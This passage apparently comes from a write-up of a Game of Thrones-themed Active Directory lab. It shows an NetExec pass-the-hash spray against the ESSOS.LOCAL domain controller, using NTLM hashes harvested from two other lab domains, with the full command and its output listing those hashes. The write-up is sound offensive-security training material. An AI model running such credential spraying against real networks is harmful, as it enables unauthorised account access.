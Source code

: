 And just like previously, I can now impersonate any domain account within the SEVENKINGDOMS.LOCAL domain. Now for the last domain, ESSOS.LOCAL.

## Final Domain Compromise

Since password re-use worked against `SEVENKINGDOMS.LOCAL`, there is no way it would work here too, right?

I went ahead and compiled a new set of `users.txt` and `pass.txt` files containing users and hashes from both `NORTH` and `SEVENKINGDOMS` domains and sent them off against an `ESSOS` DC. Same method as before.

```
# nxc smb 10.2.10.12 -u users.txt -H pass.txt --no-bruteforce --continue-on-success

SMB         10.2.10.12      445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\Administrator:c66d72021a2d4744409969a581a1705e STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\Administrator:dbd13e1c4e338284ac4e9874f7de6ef4 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\arya.stark:4f622f4cd4284a887228940e2ff4e709 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\brandon.stark:84bbaa1c58b7f69d2192560a3f932129 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\CASTELBLACK$:fc58e6ddb73769bfd7a05fbb1ff11f89 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\catelyn.stark:cba36eccfd9d949c73bc73715364aff5 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\cersei.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\cersei.lannister:c247f62516b53893c7addcf8c349954b STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\eddard.stark:d977b98c6c9282c5c478be1d97b237b8 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\ESSOS$:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\ESSOS$:e856402d05ac62577da64cf56f95bd69 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\Guest:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_ACCOUNT_DISABLED
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\hodor:337d2667505c203904bd899c6c95525e STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\jaime.lannister:12e3795b7dedb3bb741f2e2869616080 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\jaime.lannister:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\jeor.mormont:6dccf1c567c56a40e56691a723a49664 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\joffrey.baratheon:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\joffrey.baratheon:3b60abbc25770511334b3829866b08f1 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\jon.snow:b8d76e56e9dac90539aff05e3ccb1755 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\KINGSLANDING$:31d6cfe0d16ae931b73c59d7e0c089c0 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\KINGSLANDING$:de1956f4d589614b4f90f7f1d445ab23 STATUS_LOGON_FAILURE
SMB         10.2.10.12      445    MEEREEN          [-] essos.local\krbtgt:0637ab576c34b0072d09cda7dbc7e667 STATUS_LOGON_FAILURE
```